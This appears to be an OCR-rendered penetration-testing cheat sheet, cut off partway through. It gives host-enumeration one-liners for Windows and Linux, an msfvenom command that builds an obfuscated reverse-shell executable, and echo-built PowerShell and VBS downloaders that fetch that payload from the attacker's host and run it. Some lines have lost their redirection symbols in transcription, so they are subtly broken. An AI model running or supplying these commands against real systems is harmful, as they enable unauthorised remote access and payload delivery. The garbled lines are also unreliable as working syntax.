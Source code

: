 
## Initial Shell Checks
* Windows: 
    ```batch
    hostname & whoami /all & ipconfig & systeminfo & net user & net localgroup & net user /domain & tasklist /V
    ```
* Linux:
    ```bash
    hostname && whoami && id && w && ifconfig && cat /etc/*release* && uname -a && env && export -p && sudo -l
    ```
* **Find** in Windows:
    ```batch
    dir /s $driverletter:\$filenameorpattern - i.e.(dir /s c:\proof.txt)
    ```
* **Find** in Unix:
    ```bash
    find / -name $filenametofind
    ```

## Shells
* Try to use empire instead of metasploit for post exploitation and reverse shell
* MSFVENOM:
    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o reverse_shell.exe
    ```

* WGET-Win-PS1:
    ```powershell
    echo $storageDir = $pwd  wget.ps1
    echo $webclient = New-Object System.Net.WebClient wget.ps1
    echo $url = "http://$lhost:8000/reverse_shell.exe" wget.ps1
    echo $file = "reverse_shell.exe" wget.ps1
    echo $webclient.DownloadFile($url,$file) wget.ps1
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
    ```

* WGET-Win-VBS:
    ```batch
    echo strUrl = WScript.Arguments.Item(0)  wget.vbs
    echo StrFile = WScript.Arguments.Item(1)  wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0  wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0  wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1  wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2  wget.vbs
    echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts  wget.vbs
    echo Err.Clear  wget.vbs
    echo Set http = Nothing  wget.vbs
    echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1")  wget.vbs
    echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")  wget.vbs
    echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")  wget.vbs
    echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")  wget.vbs
    echo http.Open "GET", strURL, False  wget.vbs
    echo http.Send  wget.vbs
    echo varByteArray = http.ResponseBody  wget.vbs
    echo Set http = Nothing  wget.vbs
    echo Set fs = CreateObject("Scripting.FileSystemObject")  wget.vbs
    echo Set ts = fs.CreateTextFile(StrFile, True)  wget.vbs
    echo strData = ""  wget.vbs
    echo strBuffer = ""  wget.vbs
    echo For lngCounter = 0 to UBound(varByteArray)  wget.vbs